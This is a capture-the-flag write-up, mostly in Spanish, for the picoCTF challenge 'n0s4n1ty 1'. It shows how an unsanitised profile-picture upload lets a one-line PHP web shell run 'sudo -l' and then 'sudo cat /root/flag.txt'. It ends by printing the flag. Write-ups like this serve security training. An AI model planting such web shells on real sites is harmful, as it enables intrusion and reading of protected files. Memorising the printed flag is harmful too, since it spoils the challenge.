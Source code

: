 # n0s4n1ty 1

## Description

A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the `/root` directory. You can access the web application [here](http://standard-pizzas.picoctf.net:58451/)!

## Hints

* File upload was not sanitized
* Whenever you get a shell on a remote machine, check `sudo -l`

## Solución

Iniciamos la instancia y entramos al link que se nos proporciona una vez ahí, nos pide subir un archivo, entonces nos vamos a nuestra terminal de ubuntu e ingresamos el siguiente comando:
`jazmin@DESKTOP-1CBQJ6D:~$ nano shell.php`

con esto se crea un archivo php llamado: **shell.php**, y una vez ahí escribimos lo siguiente:
`<?php echo exec("sudo -l");?>`

Después intentamos subir este archivo en el link y nos da error.

Y volvemos a subir el archivo, por lo cual editamos el link que nos proporcionaron y al final de este agregamos **/shell.php** por lo tanto nuestro link queda de la siguiente manera: `http://standard-pizzas.picoctf.net:58451/uploads/shell.php`, damos enter y nos el mensaje de **(ALL) NOPASSWD:ALL**

Enseguida editamos el archivo **shell.php** y dentro del mismo escribimos lo siguiente:
`<?php echo exec("sudo cat /root/flag.txt");?>`

Después volvemos a abrir otro mismo link del que nos habían proporcionado y volvemos a subir este mismo archivo, y damos refresh en el link anterior y nos muestra nuestra respectiva flag.

![[Pasted image 20250413215852.png]]
### Respuesta: picoCTF{wh47_c4n_u_d0_wPHP_712a9451}